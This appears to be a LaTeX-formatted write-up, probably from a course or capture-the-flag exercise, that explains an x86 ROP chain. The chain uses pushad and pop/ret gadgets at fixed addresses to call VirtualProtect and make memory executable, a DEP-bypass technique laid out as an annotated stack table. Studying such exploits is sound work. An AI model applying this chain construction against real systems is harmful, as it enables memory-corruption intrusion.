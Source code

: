 \documentclass{article}
\begin{document}
To see that this stack’s ROP execution will result in a call to virtual protect we cal look at
what the stack will change to once we reach execution of 21:
(esp points to the bottom of our stack when returning from the load and goes up by two ,
then by three then by two again. So we will reach the execution of 0x9ad9e71c (in 21)
after executing 14,16, and 19in the order placed on the stack):
\begin{center}
    \begin{tabular}{|c|c|c|}
        \hline
        & \textbf{Stack (lower=bottom)} & \textbf{Explanation} \\
        \hline
        \hline
        24 & \texttt{0x00201010} & //arg 3 for Virtual protect indicates empty place \\
        & & to copy previous permissions to \\
        \hline
        23 & \texttt{0x40000040} & //arg 2 for Virtual protect indicates permissions \\
        & & to chenge to \\
        \hline
        22 & \texttt{0x00001000} & //arg 1 for Virtual protect indicates size of block \\
        & & to change \\
        \hline
        21 & \texttt{[[0x70707070]+1B]} (eax) & //pushed by pushad \\
        \hline
        20 & \texttt{0x9ad9e71c} (ecx) & // second call to 'pushad' to place eax as return \\
        & & value for Virtual Protect \\
        & & pushad \\
        & & ret \\
        \hline
        19 & Junk (edx) & //unknown value left by pushad \\
        \hline
        18 & Virtual Protect Adress (ebx) & //set up for when the second call of pushad \\
        & & moves this to be before eax \\
        \hline
        17 & Esp before 'pushad' & //value left by pushad \\
        \hline
        16 & \texttt{0x9ad9e702} (ebp) & // used to load VPA to ecx and move esp up 16 \\
        & & bytes \\
        & & pop ebx \\
        & & pop ecx \\
        & & pop ebx \\
        & & ret \\
        \hline
        15 & Junk (esi) & //unknown value left by pushad \\
        \hline
        14 & \texttt{0x9ad9e704} (edi) & pop ebx //used to move esp up by 8 bytes \\
        & & ret \\
        \hline        
    \end{tabular}\\
\end{center}
\end{document}
